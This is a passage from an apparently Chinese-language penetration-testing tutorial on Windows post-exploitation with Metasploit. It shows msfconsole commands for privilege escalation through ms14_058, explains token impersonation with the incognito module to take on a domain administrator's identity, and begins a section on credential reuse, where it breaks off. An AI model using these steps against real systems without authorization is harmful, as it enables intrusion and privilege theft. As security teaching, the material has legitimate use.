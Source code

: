 [![img](http://www.nsoad.com/upload/20161207/63447b6929558fee7e5c7b8b15a30bbc.png)](http://www.nsoad.com/upload/20161207/63447b6929558fee7e5c7b8b15a30bbc.png)

**三、利用windows提权漏洞进行提权**

可以利用metasploit下已有的提权漏洞，如ms13_053,ms14_058,ms16_016,ms16_032等。下面以ms14_058为例。

```
msf > exploit/windows/local/ms14_058_track_popup_menu
msf exploit(ms14_058_track_popup_menu) > set session 1
msf exploit(ms14_058_track_popup_menu) > exploit
```

[![img](http://www.nsoad.com/upload/20161207/571aefa42496cb87882074c560ff7ac6.png)](http://www.nsoad.com/upload/20161207/571aefa42496cb87882074c560ff7ac6.png)

用windows提权漏洞提权时，会直接返回高权限meterpreter shell，不需要再执行getsystem命令。

需要说明的是：在实际测试时，如果出现目标机器确实有漏洞，但是提权没有成功时，请确认你的TARGET和PAYLOAD是否设置正确，64位的系统最好用64位的PAYLOAD

四、令牌假冒

　　在用户登录windows操作系统时，系统都会给用户分配一个令牌(Token)，当用户访问系统资源时都会使用这个令牌进行身份验证，功能类似于网站的session或者cookie。

msf提供了一个功能模块可以让我们假冒别人的令牌，实现身份切换，如果目标环境是域环境，刚好域管理员登录过我们已经有权限的终端，那么就可以假冒成域管理员的角色。

　　1.查看当前用户

[![image.png](https://image.3001.net/images/20181116/1542337940_5bee359414620.png)](https://image.3001.net/images/20181116/1542337940_5bee359414620.png)

　　图20

　　2.使用use incognito命令进入该模块

[![image.png](https://image.3001.net/images/20181116/1542337956_5bee35a48f162.png)](https://image.3001.net/images/20181116/1542337956_5bee35a48f162.png)

　　3.查看存在的令牌

　　命令：list_tokens-u

[![image.png](https://image.3001.net/images/20181116/1542337976_5bee35b887c71.png)](https://image.3001.net/images/20181116/1542337976_5bee35b887c71.png)

　　4.令牌假冒

　　命令：impersonate_token用户名

　　注意用户名的斜杠需要写两个。

[![image.png](https://image.3001.net/images/20181116/1542337996_5bee35ccbc37c.png)](https://image.3001.net/images/20181116/1542337996_5bee35ccbc37c.png)

　　5.查看是否成功切换身份

[![image.png](https://image.3001.net/images/20181116/1542338015_5bee35df8ae01.png)](https://image.3001.net/images/20181116/1542338015_5bee35df8ae01.png)

　　五、获取凭证

　　在内网环境中，一个管理员可能管理多台服务器，他使用的密码有可能相同或者有规律，如果能够得到密码或者hash，再尝试登录内网其它服务器，可能取得意想不到的效果。
